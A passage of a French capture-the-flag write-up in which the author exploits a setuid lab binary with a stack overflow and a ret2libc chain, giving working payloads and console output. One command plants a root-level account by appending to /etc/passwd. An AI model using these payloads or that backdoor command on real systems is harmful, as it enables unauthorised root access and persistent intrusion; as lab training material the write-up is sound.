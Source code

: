 On n'a pas moyen de contrôler ce qui est passé à `system`, surtout que la commande appelée (`echo`) est une macro de bash et non un binaire externe (donc pas d'hijack de PATH possible).

L'idée est plus d'écraser l'adresse de retour par `sing_dance_rap` pour déclencher setuid/setgid puis enchainer avec un ret2libc pour appeler `system`.

Déjà si on passe 20 fois l'adresse de `sing_dance_rap` à `scanf`, on observe bien le détournement du flot d'exécution :

```console
he110wor1d@singdancerap:~$ python -c 'print(b"\x13\x92\x04\x08"*20)' | thekey2root/thekey2root
input something:
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Hey,bro! What are you looking for?
Segmentation fault
he110wor1d@singdancerap:~$ python -c 'print(b"\x13\x92\x04\x08"*9)' | thekey2root/thekey2root
input something:
Hey,bro! What are you looking for?
Segmentation fault
```

Donc, 9 fois permettent d'exécuter la fonction une seule fois.

Pour ce qui est de `system` je le vois à l'adresse `0x08049040` dans les imports Cutter.

Reste à trouver une chaîne de caractère à passer à `system`. On pourrait galérer à trouver un `sh` mais n'importe quoi fera l'affaire. Je trouve `;*2$\"0` à 0x0804a137 donc `0` à 0x0804a13c.

Je crée un script nommé `0` qui va ajouter un compte avec le mot de passe `hello`. Puis je passe les adresses pour chainer les différentes exécutions:

```console
he110wor1d@singdancerap:~$ echo -e '#!/usr/bin/bash\necho devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh >> /etc/passwd\n' > 0
he110wor1d@singdancerap:~$ chmod 755 0
he110wor1d@singdancerap:~$ python -c 'print(b"\x13\x92\x04\x08"*9 + b"\x40\x90\x04\x08" + b"\x3c\xa1\x04\x08"*2 )' | PATH=.:$PATH thekey2root/thekey2root
input something:
Hey,bro! What are you looking for?
Segmentation fault
he110wor1d@singdancerap:~$ su devloop
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
#During the process of PWN, the execution of the system function does not necessarily have to be bash.

root flag:943ac8c9-f696-11ef-8bd4-005056207011
```

Victoire les doigts dans ta soeur!
